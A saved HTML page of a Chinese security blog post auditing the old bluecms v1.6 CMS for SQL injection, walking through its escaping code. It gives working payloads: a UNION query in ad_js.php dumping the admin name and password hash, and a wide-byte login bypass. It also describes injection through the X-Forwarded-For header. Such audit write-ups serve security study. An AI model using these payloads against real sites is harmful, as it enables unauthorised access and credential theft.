





<!DOCTYPE html>
<html>
<head><meta name="generator" content="Hexo 3.8.0">
  <meta charset="utf-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  
  <title>【Code Review】bluecms v1.6 Sql Injection 分析 | 0kami&#39;s Blog</title>
  <meta name="description" content="A Code Reviewer &amp;&amp; A Web 🐶">
  <meta name="keywords" content="">
  <meta name="HandheldFriendly" content="True">
  <meta name="apple-mobile-web-app-capable" content="yes">
  <link rel="shortcut icon" href="/images/avatar.jpg">
  <link rel="alternate" href="/atom.xml" title="0kami's Blog">
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <meta name="description" content="概述很久没有代码审计了，拿一套简单的找找感觉。bluecms是一套比较老的门户网站cms，网上也有很多关于它的漏洞还未修补，所以下文的漏洞也不算是最新的，仅当是练练手。">
<meta name="keywords" content="cms">
<meta property="og:type" content="article">
<meta property="og:title" content="【Code Review】bluecms v1.6 Sql Injection 分析">
<meta property="og:url" content="http://blog.0kami.cn/2017/01/11/old-bluecms-v1-6-Sql-Injection/index.html">
<meta property="og:site_name" content="0kami&#39;s Blog">
<meta property="og:description" content="概述很久没有代码审计了，拿一套简单的找找感觉。bluecms是一套比较老的门户网站cms，网上也有很多关于它的漏洞还未修补，所以下文的漏洞也不算是最新的，仅当是练练手。">
<meta property="og:locale" content="en">
<meta property="og:image" content="http://blog.0kami.cn/img/bluecms_code_review/bluecms_login_success.png">
<meta property="og:image" content="http://blog.0kami.cn/img/bluecms_code_review/bluecms_getip.png">
<meta property="og:image" content="http://blog.0kami.cn/img/bluecms_code_review/bluecms_online_ip.png">
<meta property="og:image" content="http://blog.0kami.cn/img/bluecms_code_review/bluecms_ip_injection.png">
<meta property="og:image" content="http://blog.0kami.cn/img/bluecms_code_review/bluecms_ip_results.png">
<meta property="og:updated_time" content="2019-02-05T13:55:22.299Z">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="【Code Review】bluecms v1.6 Sql Injection 分析">
<meta name="twitter:description" content="概述很久没有代码审计了，拿一套简单的找找感觉。bluecms是一套比较老的门户网站cms，网上也有很多关于它的漏洞还未修补，所以下文的漏洞也不算是最新的，仅当是练练手。">
<meta name="twitter:image" content="http://blog.0kami.cn/img/bluecms_code_review/bluecms_login_success.png">

  <link href="https://fonts.googleapis.com/css?family=Inconsolata|Titillium+Web" rel="stylesheet">
  <link href="https://fonts.googleapis.com/css?family=Roboto+Mono" rel="stylesheet">
  <link href="//cdn.bootcss.com/node-waves/0.7.5/waves.min.css" rel="stylesheet">
  <link rel="stylesheet" href="/style.css">
  <script>
    function setLoadingBarProgress(num) {
      document.getElementById('loading-bar').style.width=num+"%";
    }
  </script>
</head>
</html>
<body>
  <div id="loading-bar-wrapper">
  <div id="loading-bar"></div>
</div>


  <script>setLoadingBarProgress(20)</script> 
  <header class="l_header">
	<div class="wrapper">
		<div class="nav-main container container--flex">
			<a class="logo flat-box" href="/">
				0kami's Blog
			</a>
			<div class="menu">
				<ul class="h-list">
					
						<li>
							<a class="flat-box nav-home" href="/">
								Home
							</a>
						</li>
					
						<li>
							<a class="flat-box nav-archives" href="/archives">
								Archives
							</a>
						</li>
					
						<li>
							<a class="flat-box nav-about" href="/about">
								About
							</a>
						</li>
					
				</ul>
				<div class="underline"></div>
			</div>
			
				<div class="m_search">
					<form name="searchform" class="form u-search-form">
						<input type="text" class="input u-search-input" placeholder="Search">
						<span class="icon icon-search"></span>
					</form>
				</div>
			
			<ul class="switcher h-list">
				
					<li class="s-search"><a href="javascript:void(0)"><span class="icon icon-search flat-box"></span></a></li>
				
				<li class="s-menu"><a href="javascript:void(0)"><span class="icon icon-menu flat-box"></span></a></li>
			</ul>
		</div>
		
		<div class="nav-sub container container--flex">
			<a class="logo" href="javascript:void(0)">
				Word of Forks
			</a>

			<ul class="switcher h-list">
				<li class="s-comment"><a href="javascript:void(0)"><span class="icon icon-chat_bubble_outline flat-box"></span></a></li>
				<li class="s-top"><a href="javascript:void(0)"><span class="icon icon-arrow_upward flat-box"></span></a></li>
				<li class="s-toc"><a href="javascript:void(0)"><span class="icon icon-format_list_numbered flat-box"></span></a></li>
			</ul>
		</div>
	</div>
</header>
<aside class="menu-phone">
	<nav>
		
			<a href="/" class="nav-home nav">
				Home
			</a>
		
			<a href="/archives" class="nav-archives nav">
				Archives
			</a>
		
			<a href="/about" class="nav-about nav">
				About
			</a>
		
	</nav>
</aside>

    <script>setLoadingBarProgress(40);</script>
  <div class="l_body">
    <div class='container clearfix'>
      <div class='l_main'>
        <article id="post-old-bluecms-v1-6-Sql-Injection" class="post white-box article-type-post" itemscope="" itemprop="blogPost">
	<section class="meta">
	<h2 class="title">
  	<a href="/2017/01/11/old-bluecms-v1-6-Sql-Injection/">
    	【Code Review】bluecms v1.6 Sql Injection 分析
    </a>
  </h2>
	<time>
	  Jan 11, 2017
	</time>
	
    
    <div class="cats">
        <a href="/categories/codereview/">codereview</a>
    </div>

	</section>
	
		<section class="toc-wrapper"><ol class="toc"><li class="toc-item toc-level-1"><a class="toc-link" href="#概述"><span class="toc-number">1.</span> <span class="toc-text">概述</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#SQL注入分析"><span class="toc-number">2.</span> <span class="toc-text">SQL注入分析</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#全局数据转义"><span class="toc-number">2.1.</span> <span class="toc-text">全局数据转义</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#整数型注入"><span class="toc-number">2.2.</span> <span class="toc-text">整数型注入</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#宽字节注入"><span class="toc-number">2.3.</span> <span class="toc-text">宽字节注入</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#后台登录处"><span class="toc-number">2.3.1.</span> <span class="toc-text">后台登录处</span></a></li></ol></li><li class="toc-item toc-level-2"><a class="toc-link" href="#存入ip造成注入"><span class="toc-number">2.4.</span> <span class="toc-text">存入ip造成注入</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#总结"><span class="toc-number">3.</span> <span class="toc-text">总结</span></a></li></ol></section>
	
	<section class="article typo">
  	<div class="article-entry" itemprop="articleBody">
    	<h1 id="概述"><a href="#概述" class="headerlink" title="概述"></a>概述</h1><p>很久没有代码审计了，拿一套简单的找找感觉。bluecms是一套比较老的门户网站cms，网上也有很多关于它的漏洞还未修补，所以下文的漏洞也不算是最新的，仅当是练练手。</p>
<a id="more"></a>
<h1 id="SQL注入分析"><a href="#SQL注入分析" class="headerlink" title="SQL注入分析"></a>SQL注入分析</h1><p>首先关注一下数据的输入</p>
<h2 id="全局数据转义"><a href="#全局数据转义" class="headerlink" title="全局数据转义"></a>全局数据转义</h2><p>在common.inc.php中</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">if(!get_magic_quotes_gpc())</span><br><span class="line">&#123;</span><br><span class="line">	$_POST = deep_addslashes($_POST);</span><br><span class="line">	$_GET = deep_addslashes($_GET);</span><br><span class="line">	$_COOKIES = deep_addslashes($_COOKIES);</span><br><span class="line">	$_REQUEST = deep_addslashes($_REQUEST);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>再跟进一下deep_addslashes</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br></pre></td><td class="code"><pre><span class="line">function deep_addslashes($str)</span><br><span class="line">&#123;</span><br><span class="line">	if(is_array($str))</span><br><span class="line">	&#123;</span><br><span class="line">		foreach($str as $key=&gt;$val)</span><br><span class="line">		&#123;</span><br><span class="line">			$str[$key] = deep_addslashes($val);</span><br><span class="line">		&#125;</span><br><span class="line">	&#125;</span><br><span class="line">	else</span><br><span class="line">	&#123;</span><br><span class="line">		$str = addslashes($str);</span><br><span class="line">	&#125;</span><br><span class="line">	return $str;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>可以发现对数据的注入，进行了加斜杠转义的操作。那么接下来找注入思路主要有以下3点：</p>
<ol>
<li>找整数型注入</li>
<li>整套cms默认gb2312编码，容易造成宽字节注入</li>
<li>http头并不在转义的范围内，所以类似存入ip，reffer的位置也能发生注入</li>
</ol>
<h2 id="整数型注入"><a href="#整数型注入" class="headerlink" title="整数型注入"></a>整数型注入</h2><p>拿grep匹配了一下$_GET，找到一处不做其他过滤的整数型位置</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">./ad_js.php:$ad_id = !empty($_GET[&apos;ad_id&apos;]) ? trim($_GET[&apos;ad_id&apos;]) : &apos;&apos;;</span><br></pre></td></tr></table></figure>
<p>跟进ad_js.php</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">$ad_id = !empty($_GET[&apos;ad_id&apos;]) ? trim($_GET[&apos;ad_id&apos;]) : &apos;&apos;;</span><br><span class="line">if(empty($ad_id))</span><br><span class="line">&#123;</span><br><span class="line">	echo &apos;Error!&apos;;</span><br><span class="line">	exit();</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line">$ad = $db-&gt;getone(&quot;SELECT * FROM &quot;.table(&apos;ad&apos;).&quot; WHERE ad_id =&quot;.$ad_id);</span><br></pre></td></tr></table></figure>
<p>getone函数</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">function getone($sql, $type=MYSQL_ASSOC)&#123;</span><br><span class="line">    	$query = $this-&gt;query($sql,$this-&gt;linkid);</span><br><span class="line">    	$row = mysql_fetch_array($query, $type);</span><br><span class="line">    	return $row;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>可以看到这里对ad_id没有做其他过滤处理，造成了整数型注入,由于后面会将ad_content打印在页面上，所以直接用union注入就可以获得数据，构造payload</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,concat(admin_name,0x23,pwd)%20from%20blue_admin%20limit%201</span><br></pre></td></tr></table></figure>
<p>结果可以在返回的界面中看到</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">&lt;!--</span><br><span class="line">document.write(&quot;admin#21232f297a57a5a743894a0e4a801fc3&quot;);</span><br><span class="line">--&gt;</span><br></pre></td></tr></table></figure>
<p>ps:因为该cms错误回显具体sql语句，表前缀可以通过报错的方法把表前缀爆出来。</p>
<h2 id="宽字节注入"><a href="#宽字节注入" class="headerlink" title="宽字节注入"></a>宽字节注入</h2><p>bluecms操作数据库的具体类定义在mysql.class.php,默认连接时的编码为gbk，我们可以知道当数据库连接时的编码为gbk等双字节编码时，容易发生宽字节注入。前面提到该套cms对数据输入进行了转义的操作，那么刚刚好条件都齐了，必然存在宽字节注入。grep看了一下，基本上的字符串都只是做了转义处理，所以字符串数据输入点都存在宽字节注入。大多数注入都是盲注，没找到具体可以会显数据的地方，这里就简单看一下登陆处</p>
<h3 id="后台登录处"><a href="#后台登录处" class="headerlink" title="后台登录处"></a>后台登录处</h3><p>其实前台user.php，也存在注入，只是盲注，这里就取简单的后台登录验证处<br>admin/login.php</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br></pre></td><td class="code"><pre><span class="line">elseif($act == &apos;do_login&apos;)&#123;</span><br><span class="line"> 	$admin_name = isset($_POST[&apos;admin_name&apos;]) ? trim($_POST[&apos;admin_name&apos;]) : &apos;&apos;;</span><br><span class="line"> 	$admin_pwd = isset($_POST[&apos;admin_pwd&apos;]) ? trim($_POST[&apos;admin_pwd&apos;]) : &apos;&apos;;</span><br><span class="line"> 	$remember = isset($_POST) ? intval($_POST[&apos;rememberme&apos;]) : 0;</span><br><span class="line"> 	if($admin_name == &apos;&apos;)&#123;</span><br><span class="line"> 		showmsg(&apos;xxx&apos;);</span><br><span class="line"> 	&#125;</span><br><span class="line"> 	if($admin_pwd == &apos;&apos;)&#123;</span><br><span class="line"> 		showmsg(&apos;xxx&apos;);</span><br><span class="line"> 	&#125;</span><br><span class="line"> 	if(check_admin($admin_name, $admin_pwd))&#123;</span><br><span class="line"> 		update_admin_info($admin_name);</span><br><span class="line"> 		if($remember == 1)&#123;</span><br><span class="line"> 			setcookie(&apos;Blue[admin_id]&apos;, $_SESSION[&apos;admin_id&apos;], time()+86400);</span><br><span class="line"> 			setcookie(&apos;Blue[admin_name]&apos;, $admin_name, time()+86400);</span><br><span class="line">			setcookie(&apos;Blue[admin_pwd]&apos;, md5(md5($admin_pwd).$_CFG[&apos;cookie_hash&apos;]), time()+86400);</span><br><span class="line"> 		&#125;</span><br><span class="line"> 	&#125;else&#123;</span><br><span class="line"> 		showmsg(&apos;xxx&apos;);</span><br><span class="line"> 	&#125;</span><br><span class="line"> 	showmsg(&apos;xxx&apos;, &apos;index.php&apos;);</span><br><span class="line"> &#125;</span><br></pre></td></tr></table></figure>
<p>继续跟进check_admin</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line">function check_admin($name, $pwd)</span><br><span class="line">&#123;</span><br><span class="line">	global $db;</span><br><span class="line">	$row = $db-&gt;getone(&quot;SELECT COUNT(*) AS num FROM &quot;.table(&apos;admin&apos;).&quot; WHERE admin_name=&apos;$name&apos; and pwd = md5(&apos;$pwd&apos;)&quot;);</span><br><span class="line"> 	if($row[&apos;num&apos;] &gt; 0)</span><br><span class="line"> 	&#123;</span><br><span class="line"> 		return true;</span><br><span class="line"> 	&#125;</span><br><span class="line"> 	else</span><br><span class="line"> 	&#123;</span><br><span class="line"> 		return false;</span><br><span class="line"> 	&#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>可以看到这里发生了一次登陆验证，可以通过宽字节注入来做万能密码登陆。</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">user_name=admin%65%27+or+1%3D1%23&amp;pwd=123</span><br></pre></td></tr></table></figure>
<p></p>
<h2 id="存入ip造成注入"><a href="#存入ip造成注入" class="headerlink" title="存入ip造成注入"></a>存入ip造成注入</h2><p>在common.inc.php中可以找到getip()函数</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br></pre></td><td class="code"><pre><span class="line">function getip()</span><br><span class="line">&#123;</span><br><span class="line">	if (getenv(&apos;HTTP_CLIENT_IP&apos;))</span><br><span class="line">	&#123;</span><br><span class="line">		$ip = getenv(&apos;HTTP_CLIENT_IP&apos;);</span><br><span class="line">	&#125;</span><br><span class="line">	elseif (getenv(&apos;HTTP_X_FORWARDED_FOR&apos;))</span><br><span class="line">	&#123;</span><br><span class="line">		$ip = getenv(&apos;HTTP_X_FORWARDED_FOR&apos;);</span><br><span class="line">	&#125;</span><br><span class="line">	elseif (getenv(&apos;HTTP_X_FORWARDED&apos;))</span><br><span class="line">	&#123;</span><br><span class="line">		$ip = getenv(&apos;HTTP_X_FORWARDED&apos;);</span><br><span class="line">	&#125;</span><br><span class="line">	elseif (getenv(&apos;HTTP_FORWARDED_FOR&apos;))</span><br><span class="line">	&#123;</span><br><span class="line">		$ip = getenv(&apos;HTTP_FORWARDED_FOR&apos;);</span><br><span class="line">	&#125;</span><br><span class="line">	elseif (getenv(&apos;HTTP_FORWARDED&apos;))</span><br><span class="line">	&#123;</span><br><span class="line">		$ip = getenv(&apos;HTTP_FORWARDED&apos;);</span><br><span class="line">	&#125;</span><br><span class="line">	else</span><br><span class="line">	&#123;</span><br><span class="line">		$ip = $_SERVER[&apos;REMOTE_ADDR&apos;];</span><br><span class="line">	&#125;</span><br><span class="line">	return $ip;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>再看看调用他的位置<br></p>
<p>online_ip调用处<br></p>
<p>看看guest_book.php处存在insert注入，并且可以通过覆盖后面的content，造成数据回显。通过xff传入注入语句或者client ip传入。</p>
<p><br>结果可以看到<br></p>
<p>其他位置的注入，不能回显，就不分析了。</p>
<h1 id="总结"><a href="#总结" class="headerlink" title="总结"></a>总结</h1><p>总体来说，直接可以grep到<code>$_GET</code>、<code>$_POST</code>、<code>$_REQUEST</code>的cms，审计起来会比较轻松。可以先从入口看起，将common,config等文件看一遍，再查找危险函数，数据入口就可审计出几个漏洞来。bluecms暂时审计到这一步，主要找的是SQL注入的漏洞。其他漏洞打算准备另外一套cms来审计:)</p>

  	</div>
	  
	  <div class="article-tags tags">
      
        <a href="/tags/cms/">cms</a>
      
	  </div>
    

	
		<div class="art-item-footer">
				
					<span class="art-item-left"><i class="icon icon-chevron-thin-left"></i>prev：<a href="/2017/01/13/old-Struts2-history-payload/" rel="prev" title="【VULNERABLITY】Struts2命令执行各版本记录">
						【VULNERABLITY】Struts2命令执行各版本记录
					</a></span>
				
				
					<span class="art-item-right">next：<a href="/2016/12/19/old-file-include/" rel="next" title="【VULNERABLITY】文件包含漏洞详解">
						【VULNERABLITY】文件包含漏洞详解
					</a><i class="icon icon-chevron-thin-right"></i></span>
				
		</div>
	
	</section>
	
		<section id="comments">
			<div id="disqus_thread"></div>
		</section>
	
</article>
<script>
	window.subData = {
		title: '【Code Review】bluecms v1.6 Sql Injection 分析',
		tools: true
	}
</script>

      </div>
      <aside class='l_side'>
        
  <section class="m_widget about">

<div class="header">wh1t3p1g</div>
<div class="content">
<div class="desc">A Code Reviewer &amp;&amp; A Web 🐶</div>
</div>
</section>

  <section class="m_widget links">
<div class="header">Links</div>
<div class="content">
    <ul class="entry">
    
        <li><a class="flat-box" target="_blank" href="http://blog.orleven.com">
            <div class="name">orleven</div>
        </a></li>
    
        <li><a class="flat-box" target="_blank" href="http://www.warmeng.com">
            <div class="name">warmeng</div>
        </a></li>
    
        <li><a class="flat-box" target="_blank" href="http://fr4nk.0kami.cn">
            <div class="name">fr4nk</div>
        </a></li>
    
    </ul>
</div>
</section>

  <section class="m_widget categories">
<div class="header">Categories</div>
<div class="content">
    
    <ul class="entry">
    
        <li><a class="flat-box" href="/categories/codereview/"><div class="name">codereview</div><div class="badget">6</div></a></li>
    
        <li><a class="flat-box" href="/categories/ctf/"><div class="name">ctf</div><div class="badget">5</div></a></li>
    
        <li><a class="flat-box" href="/categories/notes/"><div class="name">notes</div><div class="badget">11</div></a></li>
    
        <li><a class="flat-box" href="/categories/notes-codereview-ctf/"><div class="name">notes|codereview|ctf</div><div class="badget">1</div></a></li>
    
    </ul>
    
</div>
</section>

  
<div class="m_widget tagcloud">
    <div class="header">Tags</div>
    <div class="content">
        <a href="/tags/bctf/" style="font-size: 14px; color: #808080">bctf</a> <a href="/tags/cms/" style="font-size: 20px; color: #000">cms</a> <a href="/tags/cve/" style="font-size: 17px; color: #404040">cve</a> <a href="/tags/ddctf/" style="font-size: 14px; color: #808080">ddctf</a> <a href="/tags/hitbxctf/" style="font-size: 14px; color: #808080">hitbxctf</a> <a href="/tags/mobile/" style="font-size: 14px; color: #808080">mobile</a> <a href="/tags/njctf/" style="font-size: 14px; color: #808080">njctf</a> <a href="/tags/others/" style="font-size: 17px; color: #404040">others</a> <a href="/tags/suctf/" style="font-size: 14px; color: #808080">suctf</a> <a href="/tags/vul/" style="font-size: 20px; color: #000">vul</a> <a href="/tags/xxxctf-cms-vul-others-cve/" style="font-size: 14px; color: #808080">xxxctf|cms|vul|others|cve</a>
    </div>
</div>


      </aside>
      <script>setLoadingBarProgress(60);</script>
    </div>
  </div>
  <footer id="footer" class="clearfix">

	<div class="social-wrapper">
  	
      
        <a href="https://github.com/wh1t3p1g" class="social github" target="_blank" rel="external">
          <span class="icon icon-github"></span>
        </a>
      
        <a href="/atom.xml" class="social rss" target="_blank" rel="external">
          <span class="icon icon-rss"></span>
        </a>
      
    
  </div>
  
  <div>Theme <a href="https://github.com/stkevintan/hexo-theme-material-flow" class="codename">MaterialFlow</a> designed by <a href="http://keyin.me/" target="_blank">Kevin Tan</a>.</div>
  
</footer>


  <script>setLoadingBarProgress(80);</script>
  
<script>
  var disqus_shortname = '0kami';
  
  var disqus_url = 'http://blog.0kami.cn/2017/01/11/old-bluecms-v1-6-Sql-Injection/';
  
  (function(){
    var dsq = document.createElement('script');
    dsq.type = 'text/javascript';
    dsq.async = true;
    dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
    (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
  })();
</script>


<script src="//apps.bdimg.com/libs/jquery/2.1.4/jquery.min.js"></script>
<script src="//cdn.bootcss.com/node-waves/0.7.5/waves.min.js"></script>
<script src="//cdn.bootcss.com/scrollReveal.js/3.3.2/scrollreveal.min.js"></script>
<script src="/js/jquery.fitvids.js"></script>
<script>
	var GOOGLE_CUSTOM_SEARCH_API_KEY = "";
	var GOOGLE_CUSTOM_SEARCH_ENGINE_ID = "";
	var ALGOLIA_API_KEY = "";
	var ALGOLIA_APP_ID = "";
	var ALGOLIA_INDEX_NAME = "";
  var AZURE_SERVICE_NAME = "";
  var AZURE_INDEX_NAME = "";
  var AZURE_QUERY_KEY = "";
  var BAIDU_API_ID = "";
  var SEARCH_SERVICE = "hexo";
  var ROOT = "/"||"/";
  if(!ROOT.endsWith('/'))ROOT += '/';
</script>
<script src="/js/search.js"></script>
<script src="/js/app.js"></script>


  <script>setLoadingBarProgress(100);</script>
</body>
</html>
